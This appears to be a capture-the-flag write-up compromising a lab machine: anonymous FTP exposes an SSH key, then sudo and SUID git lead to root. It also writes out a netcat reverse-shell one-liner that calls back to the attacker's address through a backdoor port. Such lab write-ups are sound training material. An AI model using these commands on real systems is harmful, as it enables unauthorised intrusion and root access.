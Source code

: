 # Koth Production

---------------------
## IP: `10.10.224.175`

---------------------
##### Let's search for Open Ports via Nmap: <br />

`nmap -sC -sV -oN nmap/initial 10.10.224.175`<br />

```
21
22
139
445
9001
9002
```

![image](images/nmap.png)

----------------------
##### We can see `anonymous` login enabled for `ftp`: <br />

> Let's login then (:<br />

![image](images/ftp.png)


We get id-rsa of a user, if we get the public key too, and cat that out we can see the id_rsa was of user `ashu`<br />

-----------------------
##### Login via user `Ashu`:<br />

First you need to give the id_rsa read,write permissions using<br />

`chmod 600 id_rsa`

Let's login-<br />

`ssh -i id_rsa ashu@10.10.224.175`

-------------------------
##### Getting root via user `ashu`:<br />

>Let's check for sudo abilities for ashu<br />

`sudo -l`<br />

![image](images/ashu.png)


We see, we can just directly switch to user `skidy` with sudo-<br />

`sudo su skidy`<br />

![image](images/skidy.png)

YAY!<br />

Now, before priv-esc, if we try to look into the home directory of user `skidy`, we will find a<br /> directory named `homework`, and in there there's a python script `server1.py`, if you cat that<br />
you'll find the password you need to enter to access the backdoor on port `9001`<br />

![image](images/python.png)

Let's check for `suid` bits after getting user `skidy`:<br />

`find / -perm -4000 2>/dev/null`<br />

![image](images/suid.png)

```
We see /usr/bin/git there, let's check its gtfo-bins page
```
[GTFO-BINS](https://gtfobins.github.io/gtfobins/git/)

![image](images/gtfo.png)

> After doing-<br />

`sudo git -p help config`<br />

we can type `!/bin/bash` to get root<br />

![image](images/git.png)

------------------------
##### Getting Root via port `9001, 9002`:<br />

```
nc 10.10.224.175 9001
```

> It is a backdoor for user ashu...

put the pass we found in the python script in the home directory of user skidy `y......!`<br />

![image](images/9001.png)

> On port 9001, do-<br />

`echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.91.66 8888 >/tmp/f" > /tmp/a; chmod +x /tmp/a`<br />

![image](images/echo.png)

Now, let's use port `9002` to get a rev-shell on the port we put above-<br />

```
nc 10.10.224.175 9002
```

to get a rev-shell on port `8888`, start a netcat listener on your machine<br />

`nc -lnvp 8888`<br />

NOW on port 9002, run the command-<br />

```
/tmp/./a
```

> Yep, we got our shell as root (:<br />

![image](images/netcat.png)

-------------------
Thanks For Reading <3